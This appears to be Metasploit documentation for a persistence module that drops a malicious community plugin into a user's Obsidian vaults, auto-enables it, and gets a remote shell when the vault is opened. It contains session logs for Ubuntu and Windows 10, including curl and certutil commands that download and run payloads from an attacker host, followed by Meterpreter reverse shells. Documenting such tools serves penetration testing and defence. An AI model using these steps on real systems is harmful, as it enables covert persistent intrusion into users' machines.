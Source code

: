 ## Vulnerable Application

This module searches for Obsidian vaults for a user, and uploads a malicious
community plugin to the vault. The vaults must be opened with community
plugins enabled (NOT restricted mode), but the plugin will be enabled
automatically.

Tested against Obsidian 1.7.7 on Kali, Ubuntu 22.04, and Windows 10.

### Debugging

To open the console (similar to chrome), use `ctr+shift+i`.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Get a user shell on the target
4. Do: `use multi/local/obsidian_plugin_persistence`
5. Do: Select a shell which will work on your target OS
6. Do: `run`
7. You should get a shell when the target user opens the vault without restricted mode.

## Options

### NAME

Name of the plugin. Defaults to being randomly generated.

### USER

The user to target. Defaults the user the shell was obtained under.

### CONFIG

Config file location on target. Defaults to empty which will search the default locations.

## Scenarios

### Version and OS

Get a user shell.

```
msf exploit(multi/script/web_delivery) > use exploit/multi/local/obsidian_plugin_persistence
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf exploit(multi/local/obsidian_plugin_persistence) > set session 1
session => 1
msf exploit(multi/local/obsidian_plugin_persistence) > set verbose true
verbose => true
msf exploit(multi/local/obsidian_plugin_persistence) > exploit

[*] Command to run on remote host: curl -so ./HvxtaAdZVc http://1.1.1.1:8080/aZRe4yWUN3U2-lDtdsaGlA; chmod +x ./HvxtaAdZVc; ./HvxtaAdZVc &
[*] Fetch handler listening on 1.1.1.1:8080
[*] HTTP server started
[*] Adding resource /aZRe4yWUN3U2-lDtdsaGlA
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Using plugin name: xQem
[*] Target User: ubuntu
[*] Found user obsidian file: /home/ubuntu/.config/obsidian/obsidian.json
[+] Found open vault 83ca6e5734f5dfc4: /home/ubuntu/Documents/test
[*] Uploading plugin to vault /home/ubuntu/Documents/test
[*] Uploading: /home/ubuntu/Documents/test/.obsidian/plugins/xQem/main.js
[*] Uploading: /home/ubuntu/Documents/test/.obsidian/plugins/xQem/manifest.json
[*] Found 1 enabled community plugins (sX2sv4)
[*] adding xQem to the enabled community plugins list
[+] Plugin enabled, waiting for Obsidian to open the vault and execute the plugin.
[*] Client 2.2.2.2 requested /aZRe4yWUN3U2-lDtdsaGlA
[*] Sending payload to 2.2.2.2 (curl/7.81.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 2.2.2.2
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:49192) at 2024-12-05 10:19:32 -0500

meterpreter > getuid
Server username: ubuntu
meterpreter > sysinfo
Computer     : 2.2.2.2
OS           : Ubuntu 22.04 (Linux 5.15.0-60-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

### Obsidian 1.7.7 on Windows 10

```

msf exploit(multi/local/obsidian_plugin_persistence) > rexploit
[*] Reloading module...

[*] Command to run on remote host: certutil -urlcache -f http://1.1.1.1:8080/bXCLrS0dWKPwEfygT3FJNA %TEMP%\FDTcKUuwF.exe & start /B %TEMP%\FDTcKUuwF.exe
[*] Fetch handler listening on 1.1.1.1:8080
[*] HTTP server started
[*] Adding resource /bXCLrS0dWKPwEfygT3FJNA
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Using plugin name: pPq0K
[*] Target User: h00die
[*] Found user obsidian file: C:\Users\h00die\AppData\Roaming\obsidian\obsidian.json
[+] Found open vault 69172dadc065de73: C:\Users\h00die\Documents\vault
[*] Uploading plugin to vault C:\Users\h00die\Documents\vault
[*] Uploading: C:\Users\h00die\Documents\vault/.obsidian/plugins/pPq0K/main.js
[*] Uploading: C:\Users\h00die\Documents\vault/.obsidian/plugins/pPq0K/manifest.json
[*] Found 0 enabled community plugins ()
[*] adding pPq0K to the enabled community plugins list
[+] Plugin enabled, waiting for Obsidian to open the vault and execute the plugin.
[*] Client 3.3.3.3 requested /bXCLrS0dWKPwEfygT3FJNA
[*] Sending payload to 3.3.3.3 (Microsoft-CryptoAPI/10.0)
[*] Client 3.3.3.3 requested /bXCLrS0dWKPwEfygT3FJNA
[*] Sending payload to 3.3.3.3 (CertUtil URL Agent)
[*] Meterpreter session 7 opened (1.1.1.1:4444 -> 3.3.3.3:51369) at 2024-12-05 09:24:24 -0500

meterpreter > getuid
Server username: DESKTOP-3ASD0R4\h00die
meterpreter > sysinfo
Computer        : DESKTOP-3ASD0R4
OS              : Windows 10 (10.0 Build 19044).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > 
```
